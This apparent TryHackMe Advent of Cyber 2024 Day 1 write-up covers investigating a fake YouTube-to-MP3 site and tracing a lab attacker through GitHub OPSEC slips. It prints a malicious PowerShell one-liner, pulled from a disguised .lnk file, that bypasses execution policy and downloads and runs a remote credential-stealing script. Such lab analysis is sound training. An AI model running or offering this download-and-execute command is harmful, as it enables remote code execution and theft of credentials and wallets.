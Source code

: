 # 🎄 TryHackMe Advent of Cyber 2024 – Day 1: OPSEC Challenge


## Challenge Overview 🎅

Day 1 of the **Advent of Cyber 2024** starts off strong by taking us through an investigation into a suspicious YouTube to MP3 converter website. The goal is to analyze downloaded files, uncover malicious behavior, and track down the attacker by following their OPSEC mistakes. Along the way, I explored:
- Metadata analysis with tools like `exiftool`
- Unpacking and inspecting PowerShell scripts
- Tracing digital breadcrumbs back to their source

This was a fun and hands-on start to the month!

## Objectives 🎯

1. Investigate the suspicious website and analyze how it works.
2. Look into the files downloaded from the site for anything malicious.
3. Trace the attacker’s identity using GitHub and highlight their OPSEC blunders.


## Step 1: Investigating the Website

The website, hosted at `10.10.200.221`, looked like a standard YouTube to MP3 converter. Here’s what I did:
1. Opened the site in the AttackBox and noticed the “About” page credited its creator as **“The Glitch.”**
2. Pasted a YouTube link into the form to download a file named `download.zip`.
3. Extracted the ZIP file and found two files inside:
   - **`song.mp3`**
   - **`somg.mp3`**

At this point, everything seemed normal, but the odd filename `somg.mp3` caught my attention.

## Step 2: File Analysis Using ExifTool 🔍

### Analyzing `song.mp3`

I started with the seemingly legitimate file, running:

```
exiftool song.mp3
```

**Result:**
- The file was confirmed to be a regular MP3 with standard metadata.
- Nothing unusual or malicious here—just an audio file.


### Analyzing `somg.mp3`

The suspiciously named `somg.mp3` was next. I ran:

```
exiftool somg.mp3
```

**Result:**
- This wasn’t an MP3 at all! It was actually a Windows Shortcut file (`.lnk`).
- The metadata revealed an embedded PowerShell command:

```
-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```

This command is clearly malicious—it bypasses PowerShell execution policies, downloads a script from a remote URL, and executes it on the victim’s machine.

## Step 3: Opening `somg.mp3` in Browser 🌐

To learn more, I opened the URL embedded in the PowerShell command:

[https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)

**Script Analysis:**
- The script collects sensitive data, such as:
  - Cryptocurrency wallet files
  - Browser credentials
- This stolen data is sent to a **Command and Control (C2) server** hosted by the attacker.

## Step 4: Tracing the Attacker on GitHub 🔗

The PowerShell script contained a signature:

```
"Created by the one and only M.M."
```

### GitHub Search

I searched GitHub for this signature:

```
"Created by the one and only M.M."
```

This led me to:
- A repository owned by **M.M.**
- GitHub Issues where M.M. interacted publicly, leaving a digital trail.

### Revealing the Attacker’s Identity

By following M.M.’s activity on GitHub, I uncovered:
1. **Real Name:** The attacker’s profile included their real name.
2. **Repositories:** They hosted malicious scripts publicly.
3. **Comments:** M.M.’s interactions in Issues sections tied their GitHub account to the malware.

## Key Findings 🔑

1. **Legitimate File:** `song.mp3` was harmless.
2. **Malicious File:** `somg.mp3` contained a PowerShell command to execute a malicious script.
3. **C2 Server:** The attacker’s script sent stolen data to a remote server.
4. **Attacker Identity:** Poor OPSEC practices on GitHub exposed "M.M."

## Lessons Learned 🌟

### OPSEC Failures

This challenge was a great reminder of how attackers often slip up:
- **Reused Aliases:** M.M. used the same username across platforms.
- **Identifiable Metadata:** Including a signature in the script made it traceable.
- **Public Interactions:** Commenting on GitHub linked M.M.’s activity to their malware.

### Tools and Techniques

Some of the key tools and steps I used:
- **`exiftool`:** To extract metadata and uncover the PowerShell command.
- **Browser Inspection:** To investigate URLs and find additional clues.
- **GitHub Search:** To trace the attacker and identify their OPSEC mistakes.

## Final Thoughts 🎁

Day 1 of the Advent of Cyber series kicked off with a solid introduction to metadata analysis, malicious script investigation, and tracking down an attacker’s identity. It was a great mix of technical analysis and detective work, and I’m excited to see what challenges Day 2 will bring!

- [Main Page](README.md)
- [Day 2: Log Analysis](day2.md)
- [Day 3: Log Analysis](day3.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE](day5.md)
- [Day 6: Sandboxes](day6.md)
- [More Days to Come!](#)
